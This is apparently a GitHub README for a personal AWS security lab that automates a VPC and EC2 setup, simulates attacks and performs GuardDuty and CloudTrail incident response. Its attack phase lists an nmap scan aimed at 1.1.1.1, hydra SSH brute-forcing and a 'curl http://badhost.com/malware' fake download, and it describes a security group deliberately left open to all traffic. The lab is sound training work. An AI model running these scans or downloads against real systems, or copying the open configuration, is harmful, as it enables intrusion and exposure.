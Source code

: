 # 🛡️ AWS Cloud SOC Lab: Simulating a Cloud Breach and Response

## 📌 Overview
This project is a hands-on simulation of a cloud security incident in AWS, built to practice infrastructure automation, attack simulation, and incident response. I automated the creation of an AWS environment, simulated malicious activity, detected threats with GuardDuty, and performed manual containment like a SOC analyst. All work was done in a fully isolated AWS environment using Kali Linux.

## 🎯 Project Goals
- Automate AWS infrastructure (VPC, EC2, security groups) using Python and Boto3.
- Simulate real-world attacks (port scans, SSH brute-force, fake malware downloads).
- Analyze GuardDuty findings and CloudTrail logs to extract IOCs.
- Practice SOC analyst tasks like quarantining compromised resources.

## ⚙️ Phases

### ✅ Phase 1: VPC Automation
- Created a custom VPC (`10.0.0.0/16`), subnets, Internet Gateway, and Route Table using Boto3.
- Used `config.py` for reusable variables.
- **Lesson:** Break scripts into steps and print IDs for easier debugging.

### ✅ Phase 2: Security Group Setup
- Created `coded-sg-v2` security group allowing all traffic (lab-only, insecure).
- Verified default VPC ID using AWS CLI.
- **Lesson:** Intentionally insecure setups maximize detection visibility.

### ✅ Phase 3: EC2 Attacker Setup
- Launched an Ubuntu EC2 instance (`t2.micro`, AMI: `ami-04b70fa74e45c3917`).
- Configured CloudWatch Agent via SSM Parameter Store to monitor logs (`/var/log/syslog`, `/var/log/auth.log`) and metrics.
- Installed tools like `nmap` and `curl` for attack simulation.
- **Lesson:** SSM-managed configs are scalable for monitoring.

### ✅ Phase 4: Attack Simulation
- Simulated:
  - Port scans: `nmap -sS 1.1.1.1`
  - SSH brute-force: `hydra`
  - Fake malware downloads: `curl http://badhost.com/malware`
- Triggered GuardDuty’s malware scan (`/aws/guardduty/malware-scan-events`).
- **Lesson:** Even failed commands can trigger behavioral detections.

### ✅ Phase 5: Forensics and IOC Extraction
- Analyzed GuardDuty findings:
  - `Recon:EC2/Portscan`
  - `Backdoor:EC2/DenialOfService.TorClient`
- Extracted IOCs like:
  - IP: `1.1.1.1`
  - Port: `35`
  - Instance ID: `i-0bca611a4c23538c8`
- Encountered CloudTrail permission issue (`cloudtrail:LookupEvents`).
- **Lesson:** IAM policies are critical gatekeepers.

### ✅ Phase 5.2: Manual Quarantine
- Tagged the compromised EC2 instance with `Quarantine=True`.
- Stopped the instance manually.
- **Lesson:** Manual containment builds IR muscle memory.

### ✅ Phase 6: CloudTrail Analysis
- Correlated GuardDuty findings with CloudTrail logs.
- Investigated snapshot usage and log activity.
- **Lesson:** Logs provide context for reconstructing incident timelines.

## 💡 Key Lessons
- Cloud security is tactical—requires real, hands-on AWS practice.
- GuardDuty + CloudTrail give powerful visibility into threat activity.
- Manual steps like tagging and stopping instances can be solid IR actions.
- IAM permissions control your ability to investigate—don’t overlook them.

🙋 Reflections
This project taught me how to think like a cloud security analyst—from building and misconfiguring infrastructure to simulating attacks and performing incident response. It’s a real-world, hands-on journey through AWS security tools like GuardDuty, CloudTrail, and IAM.

